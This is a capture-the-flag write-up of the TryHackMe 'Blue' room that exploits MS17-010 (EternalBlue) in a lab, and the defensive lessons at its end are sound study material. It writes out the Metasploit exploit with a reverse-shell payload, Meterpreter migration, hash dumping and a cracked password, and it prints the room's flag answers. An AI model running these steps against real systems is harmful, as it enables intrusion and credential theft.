# TryHackMe: Blue — MS17-010 / EternalBlue

**Category:** Windows / Network Exploitation
**Difficulty:** Easy
**Key techniques:** Nmap & NetExec enumeration, MS17-010 (EternalBlue) exploitation, Meterpreter post-exploitation, hash dumping & cracking

Room link: https://tryhackme.com/room/blue

## Overview

Blue is a Windows Server 2012 R2 host vulnerable to MS17-010 (EternalBlue), the same SMBv1 remote code execution flaw used by the WannaCry ransomware worm. This writeup covers enumeration, exploitation to a SYSTEM shell, post-exploitation (credential dumping and cracking), and flag recovery.

## Recon

Initial service/version scan:

```bash
nmap -sCV -T4 10.65.146.216
```

Identified the host as Windows Server 2012 R2 Datacenter (build 9600), hostname `WIN-JO6REVNMMPP`, standalone `WORKGROUP`. Open ports: 135 (MSRPC), 139 (NetBIOS), 445 (SMB), 3389 (RDP), 5985 (WinRM). SMB signing was enabled but not required.



## Enumeration

Null session share enumeration with NetExec:

```bash
nxc smb 10.65.146.216 -u '' -p '' --shares
```

Null session accepted, but share listing returned `STATUS_ACCESS_DENIED`.



RID-brute attempt to enumerate local users over the null session:

```bash
nxc smb 10.65.146.216 -u '' -p '' --rid-brute
```

Also denied, this time at the DCERPC layer.



The earlier scan output already showed `signing:False` and `SMBv1:True` on an unpatched-looking 2012 R2 build — a strong signal to check for MS17-010 directly rather than continue enumerating a share list I couldn't read.

## Vulnerability

```bash
nmap --script smb-vuln-ms17-010 -p 445 10.65.146.216
```

Confirmed **VULNERABLE** to **CVE-2017-0143** (MS17-010 / EternalBlue).



**What it is:** a bounds-checking flaw in the SMBv1 kernel driver (`srv.sys`). By mismatching the size a client claims for a Transaction2 request against the data actually sent, an attacker can trigger an out-of-bounds write in kernel memory, redirecting execution to attacker-controlled code running as `NT AUTHORITY\SYSTEM`.

**Why it exists:** SMBv1 is a legacy protocol Microsoft kept for backward compatibility. The exploit (EternalBlue) was developed by the NSA and leaked publicly by the Shadow Brokers in April 2017 — a month after Microsoft had already patched it — which is why WannaCry and NotPetya were able to spread so widely against unpatched hosts.

**Impact:** unauthenticated remote code execution as SYSTEM — no credentials or user interaction required.

## Exploitation

```
msf > use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.67.166.82
set payload windows/x64/shell/reverse_tcp
set LHOST 192.168.149.53
run
```

The module's built-in check re-confirmed the vulnerability, then successfully groomed the kernel pool and popped a shell.




## Post-Exploitation

Upgraded the raw shell to Meterpreter for easier post-exploitation:

```
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
```




Confirmed privilege level and listed running processes to pick a stable migration target:

```
meterpreter > getuid
meterpreter > ps
```

Already running as `NT AUTHORITY\SYSTEM` — no privilege escalation needed, since the exploit itself lands at SYSTEM.




Migrated into a stable process (`WmiPrvSE.exe`, PID 2728) to keep the session alive:

```
meterpreter > migrate 2728
```



Dumped local password hashes:

```
meterpreter > hashdump
```

Recovered NTLM hashes for `Administrator`, `Guest`, and a third local account, `Jon`.



Tested `Jon`'s hash against a public NTLM lookup — it resolved instantly to the plaintext password `alqfna22`, confirming a weak, dictionary-crackable password on that account.



### Flags

Dropped to a native shell and recovered all three flags, demonstrating SYSTEM-level filesystem access:

```
C:\Windows\system32> type C:\flag1.txt
flag{access_the_machine}
```


```
C:\Windows\system32> type C:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```
Located in the same directory as the SAM/SECURITY hive files.



```
C:\Windows\system32> type C:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```
Recovered from another local user's private Documents folder.



## Lessons Learned

- An old SMBv1-capable build with signing not enforced is worth checking against MS17-010 immediately — it's a higher-value lead than trying to push past access-denied errors on share/RID enumeration.
- SYSTEM access from a kernel-level exploit bypasses per-user file permissions entirely, including other users' Documents folders and the SAM/SECURITY hive directory.
- A hash that cracks instantly against a public lookup is a fast, practical way to prove a password policy is weak without needing a full offline brute-force campaign.
- Patching alone doesn't fix everything found here — SMBv1 should be disabled outright, signing enforced, and the password policy that allowed `alqfna22` reviewed fleet-wide.
